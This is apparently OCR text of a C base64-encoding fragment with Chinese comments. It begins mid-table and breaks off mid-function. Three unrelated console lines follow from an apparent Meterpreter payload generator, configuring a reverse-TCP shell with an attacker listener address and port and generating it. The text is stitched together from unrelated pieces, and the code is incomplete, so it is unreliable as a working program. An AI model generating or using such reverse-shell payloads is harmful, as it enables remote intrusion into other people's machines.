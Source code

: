 ```c
    '+', '/' };

// 解码时使用
static const unsigned char base64_suffix_map[256] = {
    255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 253, 255,
    255, 253, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255,
    255, 255, 255, 255, 255, 255, 255, 255, 253, 255, 255, 255,
    255, 255, 255, 255, 255, 255, 255,  62, 255, 255, 255,  63,
    52,  53,  54,  55,  56,  57,  58,  59,  60,  61, 255, 255,
    255, 254, 255, 255, 255,   0,   1,   2,   3,   4,   5,   6,
    7,   8,   9,  10,  11,  12,  13,  14,  15,  16,  17,  18,
    19,  20,  21,  22,  23,  24,  25, 255, 255, 255, 255, 255,
    255,  26,  27,  28,  29,  30,  31,  32,  33,  34,  35,  36,
    37,  38,  39,  40,  41,  42,  43,  44,  45,  46,  47,  48,
    49,  50,  51, 255, 255, 255, 255, 255, 255, 255, 255, 255,
    255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255,
    255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255,
    255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255,
    255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255,
    255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255,
    255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255,
    255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255,
    255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255,
    255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255,
    255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255,
    255, 255, 255, 255 };

static char cmove_bits(unsigned char src, unsigned lnum, unsigned rnum) {
    src <<= lnum; // src = src << lnum;
    src >>= rnum; // src = src >> rnum;
    return src;
}

int base64_encode(const char *indata, int inlen, char *outdata, int *outlen) {

    int ret = 0; // return value
    if (indata == NULL || inlen == 0) {
        return ret = -1;
    }

    int in_len = 0; // 源字符串长度, 如果in_len不是3的倍数, 那么需要补成3的倍数
    int pad_num = 0; // 需要补齐的字符个数, 这样只有2, 1, 0(0的话不需要拼接, )
    if (inlen % 3 != 0) {
        pad_num = 3 - inlen % 3;
    }
    in_len = inlen + pad_num; // 拼接后的长度, 实际编码需要的长度(3的倍数)

    int out_len = in_len * 8 / 6; // 编码后的长度

    char *p = outdata; // 定义指针指向传出data的首地址

                       //编码, 长度为调整后的长度, 3字节一组
    for (int i = 0; i < in_len; i += 3) {
        int value = *indata >> 2; // 将indata第一个字符向右移动2bit(丢弃2bit)
        char c = base64_alphabet[value]; // 对应base64转换表的字符
        *p = c; // 将对应字符(编码后字符)赋值给outdata第一字节

                //处理最后一组(最后3字节)的数据
        if (i == inlen + pad_num - 3 && pad_num != 0) {
            if (pad_num == 1) {
                *(p + 1) = base64_alphabet[(int)(cmove_bits(*indata, 6, 2) + cmove_bits(*(indata + 1), 0, 4))];
                *(p + 2) = base64_alphabet[(int)cmove_bits(*(indata + 1), 4, 2)];
```

[go/meterpreter/rev_tcp>>]: set lhost 192.168.174.128
[go/meterpreter/rev_tcp>>]: set lport 6666
[go/meterpreter/rev_tcp>>]: generate